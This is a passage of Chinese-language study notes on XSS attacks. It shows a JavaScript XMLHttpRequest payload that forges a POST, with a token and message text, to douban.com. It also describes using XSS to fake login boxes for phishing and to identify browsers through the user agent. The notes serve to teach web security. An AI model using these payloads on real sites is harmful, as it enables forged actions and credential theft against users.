 又或者可以通过XMLHTTPRequest构造

```js
var url = "http://www.douban.com";
var postStr = "ck=JiUY&mb_text=test1234";

var ajax = null;
if(window.XMLHttpRequest) {
    ajax = new XMLHttpRequest();
}
else if(window.ActiveXObject) {
    ajax = new ActiveXObject("Microsoft.XMLHTTP");
}
else {
    return;
}

ajax.open("POST", url, true);
ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajax.send(postStr);

ajax.onreadystatechange = function() {
    if(ajax.readyState == 4 && ajax.status == 200) {
        alert("Done!");
    }
}
```

###### XSS钓鱼

可以做各种操作，如伪造登录框骗取用户输入

###### 识别用户浏览器

最简单的就是通过UA

```js
alert(navigator.userAgent);
```

其他方式如，通过不同类型不同版本浏览器独占功能来识别，更魔法的如书中例子，由于JS的一些特定语句结果在不同浏览器间存在差异，因此可以通过该方法进行识别

![](pic/3.png)
